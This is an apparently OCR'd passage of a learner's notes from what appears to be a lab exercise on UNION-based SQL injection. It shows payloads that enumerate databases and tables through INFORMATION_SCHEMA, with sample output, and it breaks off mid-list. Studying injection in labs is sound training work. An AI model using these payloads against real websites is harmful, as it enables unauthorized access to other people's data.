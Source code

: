 So, to reference a table present in another DB, we can use the dot ‘`.`’ operator. For example, to `SELECT` a table `users` present in a database named `my_database`, we can use:

Code: sql

```
SELECT * FROM my_database.users;
```

Similarly, we can look at tables present in the `INFORMATION_SCHEMA` Database.

  

- command —→

```
' union select 1, 2,3,4 -- -
```

database() →ilfreight

  

  

data we need to knew :

- List of databases
    
    - find what ==databases== are available on the DBMS:
        
          
        
        ```
        ' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
        ```
        
        |   |   |   |   |   |   |   |   |   |
        |---|---|---|---|---|---|---|---|---|
        |information_schema|||3|||4|||
        |mysql|||3|||4|||
        |performance_schema|||3|||4|||
        |ilfreight|||3|||4|||
        |dev|||3|||4|||
        
    
    we want to get into the dev via . and then see the tables on this dev database.
    

- List of tables within each database:
    - THE TABLES table in INFORMATION_SCHEMA database contains those columns :
        
        - TABLE_NAME ——→ says the name of the table
        - TABLE_SCHEMA ——> says on which database this table located on.
        
        ```
        ' union  select 1,table_name,table_schema,4  from INFORMATION_SCHEMA.TABLES-- -
        ```
        
        - we found this :
            